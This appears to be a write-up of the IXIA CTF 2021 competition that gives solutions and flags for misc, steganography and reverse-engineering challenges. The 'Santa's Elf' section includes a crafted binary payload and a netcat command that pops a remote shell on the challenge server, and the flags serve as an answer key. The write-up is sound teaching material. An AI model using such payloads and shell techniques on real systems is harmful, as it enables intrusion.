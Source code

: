 # IXIA CTF 2021 - https://acs-ixia-ctf.security.cs.pub.ro/home


## Misc

### Warm-up - ACS_IXIA_CTF{Welcome_to_the_IXIA_2021_CTF_Have_Fun!}

Just go to the Discord server and run `?join_role_3e4a3b455cb7789`.

### Beware the Hackerman - ACS_IXIA_CTF{STEGANOGRAPHY_IS_FUN}

Run `strings hackerman.gif` and find the following base64 encrypted string:
`QUNTX0lYSUFfQ1RGe1NURUdBTk9HUkFQSFlfSVNfRlVOfQ==`.
Decode it using `https://www.base64decode.org/`.

### Step by step - ACS_IXIA_CTF{CH4R_BY_CH4R_4ND_H3R3S_Y0UR_FL4G}

Connect using `telnet 141.85.224.109 31339`, then copy paste the commands from
`commands.txt`. The output was copied in `chars.txt`.

### Yo Dawg! - ACS_IXIA_CTF{Y0_D4WG_G00D_J0B}

Use `stegseek` to find the passphrase and the hidden file which contains the
flag.

```
stegseek yo-dawg.jpg rockyou.txt 
StegSeek version 0.5
Progress: 0.00% (0 bytes)           

[i] --> Found passphrase: "asdfjkl"
[i] Original filename: "flag"
[i] Extracting to "yo-dawg.jpg.out"
```

## Reverse

### Santa's Elf - ACS_IXIA_CTF{not_the_elf_you_were_thinking_about}

The payload is the following:
- 4 bytes from DAT_00100ad8 (ELF header, 0x00-0x03);
- 20 random bytes (0x04 - 0x17);
- 0x0000deadbeef (0x18 - 0x1f);
- 16 random bytes (0x20 - 0x2f);
- 7 (PROT_EXEC|PROT_WRITE|PROT_READ for mmap, 0x30 - 0x39).

Then build the payload and send it to the server in order to open a remote shell:
```
python2 -c 'print "\x7f\x45\x4c\x46" + "A" * 20 + "\xef\xbe\xad\xde" + "\x00" * 4 + "A" * 16 + "\x04\x00\x00\x00"' > payload
cat payload - | nc 141.85.224.118 31337
cat /home/ctf/flag
ACS_IXIA_CTF{not_the_elf_you_were_thinking_about}
```
